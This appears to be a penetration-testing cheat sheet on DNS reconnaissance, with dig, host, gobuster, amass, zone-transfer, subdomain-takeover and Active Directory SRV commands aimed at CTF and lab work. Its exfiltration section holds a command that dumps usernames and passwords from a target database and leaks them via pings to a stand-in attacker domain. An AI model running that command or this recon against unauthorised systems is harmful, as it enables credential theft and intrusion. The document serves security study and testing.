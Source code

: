 ### **DNS Reconnaissance**

**Concept/Goal:** Querying Domain Name System (DNS) servers to resolve names to IPs, discover associated services (mail, specific protocols via SRV), identify authoritative servers, enumerate subdomains, check for misconfigurations (like zone transfers), and map the target's DNS infrastructure. This is fundamental for expanding the attack surface and understanding the target environment.

**Key Tools:**

  * **CLI Query Tools:** `dig`, `host`, `nslookup`
  * **Enumeration Frameworks:** `dnsrecon`, `fierce`, `dnsenum`
  * **Passive Enumerators:** `amass`, `subfinder`, `assetfinder`, `sublist3r`, `theHarvester` 🔗 [See Section X.Y: Subdomain Enumeration (Passive)]
  * **Bruteforce Tools:** `gobuster` (dns mode), `ffuf` (for vhost fuzzing finding subdomains), `nmap` (dns-brute script)
  * **Permutation Generators:** `dnsgen`, `gotator`
  * **Mass Resolvers:** `massdns`
  * **Takeover Checkers:** `subjack`, `tko-subs`, `dnsReaper`
  * **Network Scanners:** `nmap`
  * **Packet Analyzers:** `tcpdump`
  * **AD Specific:** `adidnsdump`

**Core Techniques / Workflow:**

#### Basic DNS Queries (dig, host)

  * **Default Query (A Record):**
    💻 `dig $DOMAIN`
    💻 `host $DOMAIN`
  * **Specific Record Types (IPv4, IPv6, Mail, Nameserver, Text, Alias, Authority):**
    💻 `dig $DOMAIN A` 💡 Check primary IPv4 address.
    💻 `dig $DOMAIN AAAA` 💡 Check for IPv6 presence.
    💻 `dig $DOMAIN MX` 💡 Identify mail servers; useful for phishing/spoofing context.
    💻 `dig $DOMAIN NS` 💡 Identify authoritative nameservers; targets for AXFR.
    💻 `dig $DOMAIN TXT` 💡 Look for SPF, DKIM, DMARC, verification codes, potential info leaks.
    💻 `dig $DOMAIN CNAME` 💡 Identify aliases; useful for tracking services or takeover checks.
    💻 `dig $DOMAIN SOA` 💡 Get zone admin info (often obfuscated email), serial number (infrequent changes?), primary NS.
    💻 `dig $DOMAIN ANY` ⚠️ Often blocked/incomplete; prefer specific type queries.
  * **Concise Output:**
    💻 `dig $DOMAIN +short` (A record)
    💻 `dig $DOMAIN MX +short`
    💻 `dig $DOMAIN NS +short`
  * **Reverse DNS Lookup (PTR - IP to Hostname):**
    💻 `dig -x $TARGET_IP +short`
    💻 `host $TARGET_IP`
  * **Targeting Specific DNS Server:** 💡 Essential for querying internal resolvers or authoritative servers directly.
    💻 `dig @$DNS_SERVER $DOMAIN MX`
    💻 `dig -x $TARGET_IP @$TARGET_NS`
    💻 `host $DOMAIN $TARGET_NS`
  * **Tracing Resolution Path:**
    💻 `dig +trace $DOMAIN` 💡 Debug DNS issues or understand delegation.
  * **Filtering Output:**
    💻 `dig +noall +answer $DOMAIN` 💡 Show only the answer section.
    💻 `dig mx $DOMAIN | grep "MX" | grep -v ";"` 💡 Clean MX record output via shell.
  * **Host Tool Variations:**
    💻 `host -t a $DOMAIN`
    💻 `host -t ns $DOMAIN`
    💻 `host -t mx $DOMAIN`
    💻 `host -t aaaa $DOMAIN`
  * **Compare Public Resolvers:**
    💻 `for r in 1.1.1.1 8.8.8.8 9.9.9.9; do echo "== $r =="; dig @$r $TARGET A +short; done | tee dns_diff.txt` 💡 Check for DNS inconsistencies or split-horizon DNS.

#### Passive Subdomain Enumeration

  * **Leverage Certificate Transparency (crt.sh):**
    💻 `curl -s "https://crt.sh/?q=%25.$DOMAIN&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u` 💡 Excellent source for subdomains with TLS certs, including potentially non-public ones.
  * **Use Aggregator Tools:** (Requires API keys for best results) 🔗 [See Section X.Y: Subdomain Enumeration (Passive)]
    💻 `amass enum -d $DOMAIN -passive`
    💻 `subfinder -d $DOMAIN` (-all flag requires API keys)
    💻 `assetfinder --subs-only $DOMAIN` (Fewer sources, no keys needed by default)
    💻 `sublist3r -d $DOMAIN`
  * **Query Specific APIs:**
    💻 `curl -s "https://api.hackertarget.com/hostsearch/?q=$DOMAIN" | cut -d',' -f1`
    💻 `curl -s "https://rapiddns.io/subdomain/$DOMAIN?full=1" | grep -oP '<td>\K[^<]*' | grep -v "=\|www" | sort -u`

#### Active Subdomain Enumeration (Bruteforce)

  * 💡 Use quality wordlists (e.g., SecLists `Discovery/DNS`). 🎯 A primary method in HTB/THM for finding hidden dev/staging/admin subdomains.
  * **Gobuster DNS Mode:**
    💻 `gobuster dns -d $DOMAIN -w /path/to/subdomains.txt -t 50 -o gobuster_subs.txt`
  * **dnsrecon Bruteforce:**
    💻 `dnsrecon -d $DOMAIN -t brt -D /path/to/subdomains.txt`
  * **fierce (Includes bruteforce):**
    💻 `fierce -dns $DOMAIN --wordlist /path/to/subdomains.txt`
  * **ffuf (HTTP-based VHost Fuzzing):** 💡 Finds subdomains by checking if web servers respond differently. Requires a known webserver IP.
    💻 `ffuf -w /path/to/subdomains.txt -u http://$WEBSERVER_IP -H "Host: FUZZ.$DOMAIN" -fs <size_to_filter>`
  * **Nmap Script:**
    💻 `nmap --script dns-brute --script-args dns-brute.domain=$DOMAIN,dns-brute.hostlist=/path/to/subdomains.txt $TARGET_NS`

#### Subdomain Validation & Filtering

  * **Basic Host Check:**
    💻 `host $subdomain.$DOMAIN | grep "has address"`
  * **Filter List for Resolving Subdomains:**
    💻 `for i in $(cat subdomainlist.txt); do host $i.$DOMAIN | grep "has address" | grep "$DOMAIN" | cut -d" " -f1,4; done`

#### Subdomain Permutation & Resolution

  * 💡 Generate variations of known subdomains (e.g., dev.target.com -\> https://www.google.com/search?q=dev-uat.target.com, https://www.google.com/search?q=dev01.target.com). Useful for finding predictable naming schemes.
  * **dnsgen + massdns:**
    💻 `dnsgen known_subdomains.txt | massdns -r resolvers.txt -t A -o S -w permuted_resolved.txt` (Requires `resolvers.txt` with valid DNS resolver IPs)
  * **Gotator:**
    💻 `gotator -sub known_subdomains.txt -perm permutations.txt -depth 1 -numbers 10 -mindup -adv -md > potential_subdomains.txt` (Requires `permutations.txt` with patterns like `dev-`, `test-`, etc.)

#### DNS Zone Transfer (AXFR)

  * 💡 Attempts to get a full copy of the zone file from an authoritative nameserver. ⚠️ **Rarely successful** against properly configured external servers but *highly valuable* if it works (reveals all records). Always try against identified NS servers. 🎯 Common misconfiguration check in CTFs.
  * **Using dig:**
    💻 `dig axfr @$TARGET_NS $DOMAIN`
  * **Using host:**
    💻 `host -l $DOMAIN $TARGET_NS`
  * **Using dnsrecon:**
    💻 `dnsrecon -d $DOMAIN -t axfr`
  * **Using Nmap:**
    💻 `nmap -p 53 --script dns-zone-transfer --script-args dns-zone-transfer.domain=$DOMAIN $TARGET_NS`

#### DNS Service Scanning (Nmap)

  * **Port Scan (UDP/TCP):**
    💻 `nmap -p 53 -sU -sT $TARGET_NS`
  * **Version Scan (UDP):**
    💻 `nmap -p 53 -sU -sV $TARGET_NS`
  * **NSID Query (Identify Server Software/Version - UDP):**
    💻 `nmap -p 53 -sU --script dns-nsid $TARGET_NS` 💡 Can help find vulnerable DNS server versions.

#### Subdomain Takeover Detection

  * 💡 Checks if subdomains point (via CNAME) to external services (S3, Heroku, GitHub Pages, etc.) but the corresponding resource on the external service doesn't exist or isn't claimed. An attacker can then claim it to host malicious content under the target's domain. 🎯 Frequent vulnerability in HTB/THM web challenges.
  * **Manual CNAME Check (Example for S3):**
    💻 `host -t CNAME $subdomain.$DOMAIN` (Check if it points to an external service)
    💻 `if host $subdomain.$DOMAIN | grep -q "alias for" && host $subdomain.$DOMAIN | grep -q "s3.amazonaws.com"; then echo "Potential S3 Takeover on $subdomain.$DOMAIN"; fi`
  * **Automated Tools:**
    💻 `subjack -w potential_subdomains.txt -t 100 -timeout 30 -o takeover_results.txt -ssl`
    💻 `tko-subs -domains domains_to_check.txt`
    💻 `dnsReaper scan -d $DOMAIN --check-takeover`

#### Active Directory Specific DNS

  * 💡 AD heavily relies on SRV records to locate services. Querying these is crucial during internal AD enumeration. Target the Domain Controller (DC) as the DNS server.
  * **Find LDAP Servers:**
    💻 `dig @$DC_IP SRV _ldap._tcp.dc._msdcs.$DOMAIN`
  * **Find Kerberos Servers (TCP/UDP):**
    💻 `dig @$DC_IP SRV _kerberos._tcp.dc._msdcs.$DOMAIN`
    💻 `dig @$DC_IP SRV _kerberos._udp.$DOMAIN`
  * **Find Global Catalog Servers:**
    💻 `dig @$DC_IP SRV _gc._tcp.dc._msdcs.$DOMAIN`
  * **Find Kerberos Password Change Servers:**
    💻 `dig @$DC_IP SRV _kpasswd._tcp.$DOMAIN`
    💻 `dig @$DC_IP SRV _kpasswd._udp.$DOMAIN`
  * **Dump AD Integrated DNS Zone:** (Requires domain credentials)
    💻 `adidnsdump -u '$DOMAIN\$USER' -p '$PASSWORD' $DC_IP` 💡 Provides a comprehensive list of internal hosts known to AD DNS.

#### DNS Traffic Monitoring & Exfiltration

  * **Capture DNS Traffic:**
    💻 `tcpdump -i any port 53 -l -A` 💡 Monitor local DNS queries or sniff traffic on a compromised host. Add `-n` to disable name resolution.
    💻 `tcpdump -ln -i tun0 port 53 -A 2>/dev/null | grep -E -o "([0-9A-Za-z][0-9A-Za-z\-]*\.)+[0-9A-Za-z][0-9A-Za-z\-]*"` (Capture on tun0, extract domains)
  * **DNS Exfiltration Example (⚠️ Use Ethically & Legally\!):** 💡 Technique to leak data via crafted DNS queries to an attacker-controlled server. Very noisy if not careful.
    💻 `mysql -h $TARGET_DB -u root -p'$PASSWORD' -e "SELECT CONCAT(username, '.', password, '.your.exfil.domain.com') FROM users;" | grep -v username | xargs -I{} ping -c 1 {}` (⚠️ Simplified example; real exfil often encodes data and uses tools like `dnscat2`).

#### Combined Workflows

  * **Subfinder -\> Nuclei Exposure Scan:**
    💻 `subfinder -d $DOMAIN -all -silent | httpx -silent | nuclei -t exposures/ -o nuclei_exposures.txt` 💡 Passively find subdomains, check if they host web servers, then scan for known exposures/misconfigurations with Nuclei templates.
  * **Multi-Record Enum:**
    💻 `for domain in $(cat domains.txt); do (dig +short A $domain @$NS; dig +short AAAA $domain @$NS; ...) | sort -u > $domain-records.txt; done` 💡 Script querying multiple record types for a list of domains against a specific nameserver.

-----

